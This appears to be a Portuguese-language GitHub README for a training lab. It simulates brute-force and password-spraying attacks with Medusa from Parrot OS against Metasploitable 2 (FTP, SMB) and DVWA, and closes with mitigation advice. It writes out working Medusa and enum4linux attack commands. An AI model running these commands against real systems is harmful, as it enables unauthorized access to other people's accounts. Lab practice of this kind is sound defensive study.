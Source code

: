 # dio-desafio-medusa-parrot-bruteforce

# Simulação de Ataques de Força Bruta em Ambientes Controlados: Usando Parrot OS e Medusa

Objetivo: simular ataques em FTP, Web e SMB, documentar o processo, propor mitigações

Este projeto prático foi desenvolvido como parte do desafio proposto pela DIO, com o objetivo de simular e documentar ataques de força bruta contra serviços e aplicações web em um ambiente de laboratório controlado.

A simulação utilizou o Parrot OS Security Edition como a plataforma principal de ataque, aproveitando suas ferramentas pré-instaladas, com ênfase na ferramenta Medusa, combinada com a customização de wordlists.

O ambiente de teste consistiu em máquinas virtuais configuradas em uma rede em modo Bridge, tendo como alvos principais:

# Alvo e Serviço: Metasploitable 2 (FTP). 
Objetivo da Simulação: Realizar um ataque de força bruta no serviço FTP (porta 21) para obter credenciais de acesso, demonstrando a vulnerabilidade de serviços com senhas fracas.

# Alvo e Serviço: DVWA (Damn Vulnerable Web Application)
Objetivo da Simulação: Atacar o formulário de login web, simulando a automação de tentativas de login HTTP POST com o Medusa, e entendendo como a segurança da aplicação (níveis de dificuldade) afeta a eficácia do ataque.

# Alvo e Serviço: Metasploitable 2 (SMB)
Objetivo da Simulação: Explorar a enumeração de usuários (utilizando ferramentas como enum4linux ou Nmap) e, em seguida, executar um ataque de password spraying no serviço SMB (porta 445), visando identificar contas com senhas comuns.

# Configuração do Ambiente
Máquinas Virtuais: Metasploitable 2/DVWA).
Software de Virtualização (VirtualBox). 
Configuração de Rede (Bridge).
!{metasploitable}(imagens/matasploitable.png)

# Passo a Passo dos Ataques Simulados
Foi criada uma seção para cada serviço atacado (FTP, Web - DVWA, SMB).

A. Ataque a FTP (Serviço vsftpd do Metasploitable 2)
 comando: medusa -h 192.168.1.7 -u msfadmin -P pass.txt -M ftp
 -h: Host Alvo
 -u: Usuário (ou -U para lista de usuários)
 -P: Wordlist de Senhas
 -M: Módulo/Serviço a ser atacado (ftp)


B. Ataque a Formulário Web (DVWA)
 comando: medusa -h 192.168.1.7 -M http -m "Location: index.php" -u "admin" -P wordlist-pass.txt -d "username=^USER^&password=^PASS^&Login=Login" -t 5 -T 1
 -H: Cabeçalho
 -d: Dados do POST, onde ^USER^ e ^PASS^ são os placeholders
 -m: Mensagem de erro (para saber quando falhou)

C. Ataque a SMB (Enumeração de Usuários e Password Spraying)
 comando: enum4linux 192.168.1.10
 Encontra usuários existentes no serviço SMB

 comando: medusa -h 192.168.1.7 -U smb_users.txt -p 'password' -M smb
 -U: Lista de Usuários
 -p: Senha única (para password spraying)

# Wordlists Utilizadas:
pass.txt, users.txt, senhas_spray.txt, smb_users.txt.

# Recomendações de Mitigação
Políticas de senha forte (complexidade, tamanho). - Técnicas: Bloqueio de IP após N tentativas (fail2ban), uso de autenticação de dois fatores (MFA), desativação de serviços não essenciais (ex: FTP/SMB se não usados), monitoramento de logs.

# Conclusão e Reflexões

O desafio prático demonstrou, de forma clara e controlada, a simplicidade e a eficácia do uso de ferramentas open-source, como o Medusa no Parrot OS, na execução de técnicas de força bruta. Em questão de segundos, foi possível evidenciar a vulnerabilidade de serviços que não aderem aos padrões básicos de segurança.

A experiência escancara como é fácil para um atacante utilizar uma *wordlist* personalizada ou pública (derivada de vazamentos históricos de dados) para obter acesso a contas com senhas fracas.

Neste cenário de ameaças, fica evidente que:

Senhas Fortes são a Base, mas Insuficientes: 
A implementação de políticas de senhas robustas é o primeiro e fundamental elo da corrente de segurança.

Autenticação de Dois Fatores (MFA) é Essencial:
A MFA se estabelece não mais como uma camada opcional, mas sim como uma necessidade crítica para defender contas contra ataques de força bruta bem-sucedidos.

Conhecimento Ofensivo para Defesa: Para nós, profissionais de Segurança da Informação, defender sistemas requer um conhecimento elementar e prático destas vulnerabilidades ofensivas. Somente ao entender como os ataques são realizados podemos implementar contramedidas eficazes, como bloqueio de IPs (fail2ban), limitação de rate e monitoramento de logs, garantindo a mitigação e prevenção de acessos indevidos aos nossos ativos.

Este projeto reforça a importância da segurança por design e da constante vigilância contra táticas de ataque que exploram a fragilidade humana e a má configuração de sistemas.

